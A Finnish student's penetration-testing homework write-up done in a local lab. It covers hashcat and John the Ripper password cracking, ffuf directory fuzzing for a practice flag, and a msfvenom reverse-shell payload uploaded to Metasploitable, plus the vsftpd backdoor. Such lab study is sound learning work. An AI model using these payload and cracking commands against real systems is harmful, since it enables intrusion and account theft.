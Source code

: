 # Lue ja tiivistä

- Fuzzer: Voi löytää URL-domaineista piilotettuja sivuja ja domaineja joita voi tarkastella. Teknisesti tätä samaa työtä voi tehdä manuaalisesti, mutta se on moninkertaisesti nopeampaa käyttäen [ffuffin](https://github.com/ffuf/ffuf) kaltaista työkalua

- Hashcat: Nykyaikana on todella harvinaista löytää salasanaa tallennettuna raakatiedostona serverillä, sen sijaan monet serverit kääntävät talletetut salasanat hasheiksi tietynlaisilla algorithmeilla. Internetin mukaan [Bcrypt](https://www.npmjs.com/package/bcrypt), joka on kehitetty [Blowfishistä](https://en.wikipedia.org/wiki/Blowfish_(cipher)), on yksi käytetyimmistä salasana-hasheista nykyaikana. Hashcat yrittää tunnistaa bruteforce-metodilla sanaa, jonka hash vastaa sille syötettyä hashia, näin avaten hashin sisältämän salasanan.

- [John](https://www.openwall.com/john/) the Ripper on samankaltainen työkalu, mutta Johnilla voi kokeilla suoria sanakirjahyökkäyksiä esimerkiksi .zip tiedostojen suojauksiin.

# A) Asenna Hashcat ja kokeile toimivuutta murtamalla esimerkkisalasana

Hashcatin asennusta ei tarvinnut omassa tapauksessa tehdä, sillä Kali Linuxin mukana tulee Hashcatin versio 6.2.6

![image](https://github.com/konetoivonen/laksyt/assets/164856618/740085e3-e0c1-4b3b-94d9-104b3587c1c0)

Ladataan salasanakirjasto Githubista, itse olen koko repon ladannut aikaisemmin HackTheBoxia tehdessä, niin nappaan vain reposta tarvittavan tekstitiedoston, ja liitän sen luotuun "Hashed" kansioon

![image](https://github.com/konetoivonen/laksyt/assets/164856618/b95a6de6-5265-4bd0-a69e-926bfe8e01eb)

Aloitetaan esimerkkisalasanan hashin murtaminen seuraavalla komennolla:

    hashcat -m 0 '6b1628b016dff46e6fa35684be6acc96' rockyou.txt -o solved

Hetken kuluttua saadaan vastaus:

![image](https://github.com/konetoivonen/laksyt/assets/164856618/08a225b3-2a65-4ee5-983c-d14d3deecef2)

Salasana on siis:

    summer


# B) Ratkaise dirfuzt-1 

Laitetaan dirfuzt-1 päälle

![image](https://github.com/konetoivonen/laksyt/assets/164856618/37b849e1-68db-464b-b325-79ebc64ea366)

Laitetaan ffuzzeri fuzzaamaan

![image](https://github.com/konetoivonen/laksyt/assets/164856618/8e7126da-b3f5-4160-95cc-9e0a9bab672e)

Tuloksia tutkiessa olin aluksi hieman hukassa siitä, miten oikea sivu pitäisi löytää kaiken tämän joukosta ja vaikka ffuffissa on todella laajat filtteriasetukset, en niitä jaksanut säätää, sillä huomasin tuloksia selatessa, että viidellä sivulla oli sanamäärä 6, kun taas lopuilla oli 9, joten filtteröin ne terminaalin Find komennolla ja löysin sivut, jotka kun avasi, sai kyseisen viestin

![image](https://github.com/konetoivonen/laksyt/assets/164856618/c32e24e4-1ce2-43ba-a5bb-066a5bf11caa)

Näitä sivuja olivat siis: 

    127.0.0.2:8000/wp-admin
    127.0.0.2:8000/.git/config
    127.0.0.2:8000/.git/HEAD
    127.0.0.2:8000/.git/index
    127.0.0.2:8000/.git/logs/

Pakko sanoa, että oma ratkaisuni on sen verran outo, etten ole varma onko ratkaisuni edes oikein, mutta ainakin sivut näyttävät kyseisen viestin;

    You found it! FLAG{tero-git-3cc87212bcd411686a3b9e547d47fc51}

Joten merkisten sen vuoksi tehtävän tehdyksi. Odotan innolla päästä näkemään muiden ratkaisuja ja katsomaan kuinka muut ratkaisivat kyseisen tehtävän!

# C)

Kali Linuxia käyttäessä huomaa, että John the Ripper on jo asennettu, joten tarkistetaan sen olemassaolo ja ladataan esimerkkimateriaali 'wget'-komennolla

![image](https://github.com/konetoivonen/laksyt/assets/164856618/daab3fbf-a4a7-419a-a1c2-5e57a0ecf899)

Sen jälkeen huomataan, että .zip tiedosto on salasanasuojattu, ohjeen mukaisesti muunnetaan John the Ripper-työkalulla salasanasuojattu .zip tiedosto .zip.hash tiedostoksi ja laitetaan John the Ripper työstämään annettua .hash tiedostoa

![image](https://github.com/konetoivonen/laksyt/assets/164856618/fead3699-f0b2-42e8-b039-af83213c5e55)

Huomataan, että salasana on 

    butterfly

Puretaan arkisto annetulla salasanalla ja avataan sisältö

![image](https://github.com/konetoivonen/laksyt/assets/164856618/d564a86d-f427-4ffc-8888-0e21003c224c)

# D)

Basic Content Discovery:

![image](https://github.com/konetoivonen/laksyt/assets/164856618/38fd4955-4752-4d53-92fc-ef4277124030)

Content Discovery With Recursion:

![image](https://github.com/konetoivonen/laksyt/assets/164856618/1ef30fd0-41d4-4c21-bd14-1e7360ca50f0)

Content Discovery With File Extensions:

![image](https://github.com/konetoivonen/laksyt/assets/164856618/5bc23af2-5c55-4d0f-b492-559cc244c2a4)

No 404 Status:

![image](https://github.com/konetoivonen/laksyt/assets/164856618/fe704330-35e7-43a3-9352-886db739b7be)

![image](https://github.com/konetoivonen/laksyt/assets/164856618/74b71945-3326-4f2a-96d1-d49ffd061863)

Param mining:

![image](https://github.com/konetoivonen/laksyt/assets/164856618/66ce3daf-438f-42ba-934a-81af1f961100)

Rate Limited:

![image](https://github.com/konetoivonen/laksyt/assets/164856618/a9894abd-2d7a-4a1e-85ef-3045a552d19f)

![image](https://github.com/konetoivonen/laksyt/assets/164856618/c8ae648a-fb58-4fa6-8d1e-9560812a715f)

Subdomains - Virtual Host Enumeration

![image](https://github.com/konetoivonen/laksyt/assets/164856618/4bbdb919-7172-4bb9-8c6a-cb7ace1ef8fb)

![image](https://github.com/konetoivonen/laksyt/assets/164856618/ea60e6a9-75bd-42e3-8fd5-58a39329e77d)

# e) 


Tein Metasploitilla seuraavannäköisen haittaohjelman

    msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.0.2.15  LPORT=4444 -f elf > shell-x64.elf

Muodostin FTP-yhteyden Metasploitable-koneeseen ja siirsin tiedoston koneelle "put"-komennolla


![image](https://github.com/konetoivonen/laksyt/assets/164856618/fabea6dd-d4ae-4901-8ce4-18075ef09a5b)


Jotta tiedostosta voidaan tehdä ajettava executable, muodostetaan myös erillinen SSH-yhteys koneeseen


![image](https://github.com/konetoivonen/laksyt/assets/164856618/f0f21cd0-ce8e-40c0-9fe9-a93ad7b79345)

Tehdään seuraavalla komennolla .elf-tiedostosta ajettava tiedosto:

    msfadmin@metasploitable:~$ chmod +x shell2-x64.elf

Tässä kohdassa oma kokeilu jäi tähän. Sain siirrettyä tiedoston, sain tehtyä siitä ajettavan binääritiedoston, mutta kun ajan sen, kone näyttää tyhjää eikä TCP-listenerin taakse ilmesty ikinä Meterpreter-sessiota. 

Tarkistin, että arkkitehtuuri on annettu oikein ja rakennettu oikein. Rakensin kyseisen TCP-meterpreter-haittaohjelman neljään eri kertaan kokeillen eri arkkitehtuureita jottei se vaan jäisi siitä kiinni, joten oletukseni on että ongelma on koneiden välisessä yhteydessä. 
Huomasin kuitenkin sen verran, että vaikka Metasploitable2 on Debian-64 bit pohjainen, jostain syystä ainoastaan rakentamani x86-versio tuosta haittaohjelmasta ajoi oikein kohdekoneella. Yhteyttä vaan ei muodostunut.

Alla hieman yksinkertaisempi tapa saavuttaa sama asia tuottamatta niin paljoa päänvaivaa käyttämällä yksinkertaista vsftpd_234_backdoor-takaovea:

![image](https://github.com/konetoivonen/laksyt/assets/164856618/9b2d117e-d064-4379-bef2-20877a2070d6)


# f)

Tämän koneen kanssa säätö kyllä ärsyttää aika paljon, mutta alla asennettu virtuaalikone Windows 10-käyttöjärjestelmällä


![image](https://github.com/konetoivonen/laksyt/assets/164856618/0b54a783-b2ef-4487-8211-21236df92219)


# g)

Remminan avulla sain muodostettua juuri-luotuun Windows-virtuaalikoneeseen yhteyden RDP:n kautta. Ongelmana oli aluksi, etten ollut laittanut RDP-toimivuutta päälle Virtualboxin asetuksista, jonka vuoksi yhteys ei muodostunut. Raksutin päätä ainakin tunnin kunnes päätin käydä ulkona, palasin sisälle ja katsoin asetuksia ja huomasin että koneen asetuksissa "Remote Desktop Server" oli pois päältä. Kun asensin VirtualBox-lisäosat jotka mahdollistivat toimivuuden ja laitoin sen päälle, yhteys muodostui ilman ongelmia.


![image](https://github.com/konetoivonen/laksyt/assets/164856618/b1bd928e-1aed-4b15-acb0-99f3fa33335b)





